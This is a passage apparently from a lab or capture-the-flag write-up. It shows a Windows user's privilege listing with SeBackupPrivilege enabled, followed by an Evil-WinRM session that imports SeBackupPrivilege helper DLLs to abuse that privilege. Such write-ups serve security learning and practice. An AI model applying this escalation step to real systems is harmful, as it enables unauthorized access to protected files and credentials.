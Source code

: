 ```bash
SeBackupPrivilege             Back up files and directories  Enabled                                                                                                                                                                                                                                                                                                                                                                     
SeRestorePrivilege            Restore files and directories  Enabled                                                                                                                                                                                                                                                                                                                                                                     
SeShutdownPrivilege           Shut down the system           Enabled                                                                                                                                                                                                                                                                                                                                                                     
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled                                                                                                                                                                                                                                                                                                                                                                     
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled                                                                                                                                                                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                                                                                                                                                                                                         
                                                                                                                                                                                                                                                                                                                                                                                                                                         
USER CLAIMS INFORMATION                                                                                                                                                                                                                                                                                                                                                                                                                  
-----------------------                                                                                                                                                                                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                                                                                                                                         
User claims unknown.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            
```

User emily.oscars has the Backup privilege enabled. Uploading the necessary module to leverage this privilege for replication.

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents\Backup> Import-Module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents\Backup> Import-Module .\SeBackupPrivilegeUtils.dll

```
